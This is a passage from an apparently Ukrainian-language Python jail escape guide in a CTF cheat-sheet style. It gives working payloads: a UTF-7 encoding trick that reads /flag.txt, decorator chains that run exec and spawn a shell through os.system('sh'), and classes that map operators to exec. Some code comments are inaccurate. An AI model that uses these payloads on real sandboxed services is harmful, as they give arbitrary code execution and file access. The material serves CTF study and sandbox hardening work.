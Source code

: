 У [**this writeup**](https://blog.arkark.dev/2022/11/18/seccon-en/#misc-latexipy) UFT-7 використовується для завантаження та виконання довільного python-коду всередині, здавалося б, sandbox:
```python
assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
return x
#+AAo-print(open("/flag.txt").read())
""".lstrip()
```
Також можна обійти це, використовуючи інші кодування, наприклад `raw_unicode_escape` та `unicode_escape`.

## Виконання Python без викликів

Якщо ви перебуваєте в Python jail, який **не дозволяє вам робити виклики**, все ще існують способи **виконати довільні функції, код** та **команди**.

### RCE за допомогою [decorators](https://docs.python.org/3/glossary.html#term-decorator)
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
pass

# The previous code is equivalent to:
class X:
pass
X = input(X)
X = exec(X)

# So just send your python code when prompted and it will be executed


# Another approach without calling input:
@eval
@'__import__("os").system("sh")'.format
class _:pass
```
### RCE creating objects and overloading

Якщо ви можете **declare a class** і **create an object** того класу, ви могли б **write/overwrite different methods**, які можуть бути **triggered** **without** **needing to call them directly**.

#### RCE with custom classes

Ви можете модифікувати деякі **class methods** (_by overwriting existing class methods or creating a new class_) щоб вони **execute arbitrary code** коли будуть **triggered** без їхнього прямого виклику.
```python
# This class has 3 different ways to trigger RCE without directly calling any function
class RCE:
def __init__(self):
self += "print('Hello from __init__ + __iadd__')"
__iadd__ = exec #Triggered when object is created
def __del__(self):
self -= "print('Hello from __del__ + __isub__')"
__isub__ = exec #Triggered when object is created
__getitem__ = exec #Trigerred with obj[<argument>]
__add__ = exec #Triggered with obj + <argument>
```